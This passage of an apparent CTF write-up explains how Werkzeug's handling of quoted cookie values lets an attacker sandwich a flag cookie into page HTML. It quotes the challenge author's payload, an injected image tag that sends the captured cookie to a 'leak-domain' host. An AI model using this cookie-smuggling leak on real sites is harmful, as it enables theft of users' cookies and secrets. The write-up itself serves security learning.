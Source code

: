 But after bypassing that, how do you get the flag? This is where the second quirk of Werkzeug's cookie parsing comes into play. When Werkzeug parses a cookie, if it encounters a `"` character, it will parse until the next `"` character.

For example, if the cookie content is like this:

```
Cookie: cookie1="abc; cookie2=def";
```

The result will be: `"cookie1": "abc; cookie2=def"`

In other words, if we sandwich the flag between two cookies, we can include the flag in the HTML, and then find a way to retrieve the cookie. Here is an example payload provided by the author:

```
Cookie: settings="{\"\150tml\": "<img src='https://leak-domain/?cookie= ;flag=GH{FAKE_FLAG}; settings='>\"}"
```

After reading this challenge, I suddenly remembered a similar challenge from DiceCTF 2023, where Jetty had this behavior: [Web - jnotes (6 solves)](https://blog.huli.tw/2023/03/26/en/dicectf-2023-writeup/#web-jnotes-6-solves). It seems that there are quite a few web frameworks with this parsing behavior.
